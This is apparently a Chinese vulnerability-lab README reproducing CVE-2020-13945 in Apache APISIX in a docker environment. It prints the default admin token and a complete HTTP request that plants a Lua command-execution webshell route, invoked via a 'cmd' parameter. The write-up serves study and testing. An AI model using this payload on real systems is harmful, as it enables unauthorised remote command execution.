


# Apache APISIX 默认密钥漏洞（CVE-2020-13945）

Apache APISIX是一个高性能API网关。在用户未指定管理员Token或使用了默认配置文件的情况下，Apache APISIX将使用默认的管理员Token `edd1c9f034335f136f87ad84b625c8f1`，攻击者利用这个Token可以访问到管理员接口，进而通过`script`参数来插入任意LUA脚本并执行。

参考链接：

- https://apisix.apache.org/docs/apisix/getting-started
- https://github.com/apache/apisix/pull/2244
- https://seclists.org/oss-sec/2020/q4/187

## 漏洞环境

执行如下命令启动一个Apache APISIX 2.11.0（这个漏洞并没有且应该不会被官方修复，所以到最新版仍然存在）：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:9080`即可查看到默认的404页面。

## 漏洞复现

利用默认Token增加一个恶意的router，其中包含恶意LUA脚本：

```
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406

{
    "uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```



然后，我们访问刚才添加的router，就可以通过cmd参数执行任意命令：

```
http://your-ip:9080/attack?cmd=id
```


